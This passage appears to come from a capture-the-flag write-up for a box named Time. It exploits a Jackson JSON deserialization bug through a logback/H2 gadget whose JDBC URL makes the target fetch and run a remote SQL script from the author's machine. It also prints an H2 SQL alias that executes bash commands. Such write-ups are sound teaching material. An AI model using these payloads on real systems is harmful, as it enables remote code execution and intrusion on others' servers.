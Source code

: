 #### Background

There were a bunch of CVEs for Jackson. In fact, the hardest part of this box was finding the right one that worked here. Eventually I found [this post](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) which contained this payload as a test:

```

["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]

```

This is taking advantage of a JSON deserialization vulnerability. In this proof of concept, they are using the H2 database driver (which should be present in most Java deployments that use a database, which is most). This driver can take an SQL script to run, which is typically used benignly to support database migrations.

#### Test

I’ll update the URL to point to my VM:

```

["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8/test.sql'"}]

```

On submitting to Time, I get a request at my local HTTP server:

```

oxdf@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.214 - - [09/Feb/2021 19:23:33] code 404, message File not found
10.10.10.214 - - [09/Feb/2021 19:23:33] "GET /test.sql HTTP/1.1" 4

```

It worked!

#### Weaponize - POC

There’s a sample SQL script used to weaponize this in the post as well:

```

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > exploited.txt')

```
